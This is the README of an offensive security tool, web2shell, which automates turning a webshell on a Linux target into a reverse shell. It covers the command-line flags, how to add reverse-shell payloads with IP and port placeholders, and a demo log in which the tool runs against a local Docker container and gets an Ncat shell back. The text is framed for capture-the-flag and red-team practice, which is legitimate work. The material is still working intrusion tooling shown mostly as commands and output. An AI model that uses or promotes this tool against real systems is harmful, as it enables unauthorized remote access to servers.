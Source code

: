 # web2shell

A Python program used to automate converting webshells into reverse shells. If you regularly do CTF, HTB, or red teaming you've probably spent a good chunk of time testing payloads to convert a webshell into a reverse shell. This tool aims to simplify this process.

Credit for the reverse shells goes to [PayloadAllTheThings.](https://github.com/swisskyrepo/PayloadsAllTheThings)

## Usage

```
usage: web2shell.py [-h] --url URL [--interface INTERFACE] [--force FORCE] [--ip IP] [--port PORT] [--nc NC]

options:
  -h, --help            show this help message and exit
  --url URL             webshell URL, replace the provided command with "SHELL". ex: https://example.com/shell.php?cmd=SHELL
  --interface INTERFACE
                        the interface to use when listening for a remote shell. Default is localhost.
  --force FORCE         force command execution even if initial check is invalid, must be true or false
  --ip IP               IP address of your own listener (skips listener setup)
  --port PORT           port of your own listener (skips listener setup)
  --nc NC               path to local nc binary
```

The only **required** flag is the `url.`

Please note: this program currently is only intended to be used on and against Linux machines.

## Requirements

All of the Python libraries used should be included in base Python. You will need a copy of `nc`. The program will attempt to find it automatically. If it can't, please specify the path with the `--nc` flag.

## Adding New Payloads

The included payloads have all been tested on a simple webshell and work. If you'd like to add more, please feel free.

- Edit the `data/payloads.py` file.
- Add a new object to the `payloads` dict. The `key` should be the name of the bin, and the value should be a `list` object of payloads.
- Replace all instances of the reverse `IP` with `IPHERE`, the port with `PORTHERE`, and the binary name with `PATHHERE`.

## Example

Example execution on local Docker image (see `demo/README.md`)

```
[evan@ejedev web2shell]$ python3 web2shell.py  --url http://127.0.0.1:8080/cmd.php?cmd=SHELL --interface docker0

               o                  o           o  o
               O     .oOOo.       O           O  O
               O          O       o           o  o
               o          o       O           O  O
'o     O .oOo. OoOo.     O' .oOo  OoOo. .oOo. o  o
 O  o  o OooO' O   o    O   `Ooo. o   o OooO' O  O
 o  O  O O     o   O  .O        O o   O O     o  o
 `Oo'oO' `OoO' `OoO' oOoOoO `OoO' O   o `OoO' Oo Oo
---------------------------------------------------
                      @ejedev

Verifying commands can be executed...
Available interfaces...
[-] lo
[-] enp4s0
[-] docker0
[-] br-7436527ee366
[-] br-aa3534e13396
[-] br-c7551daa06d2
[-] veth87ee241
docker0 selected. Address to use is 172.17.0.1
Testing ports...
[-] 1025 available!
Finding local nc binary...
nc target at /usr/bin/nc
Final connection string will be 172.17.0.1:1025...
Finding bins...
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1025
Ncat: Listening on 0.0.0.0:1025
[-] perl found at /usr/bin/perl
[-] perl found at /usr/bin/perl5.32-x86_64-linux-gnu
[-] php found at /usr/local/bin/php
[-] python found at /usr/bin/python3.9
Executing reverse shell...
Bins to test: 4
[!] Attempting perl payloads for path /usr/bin/perl
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:54256.
$
```
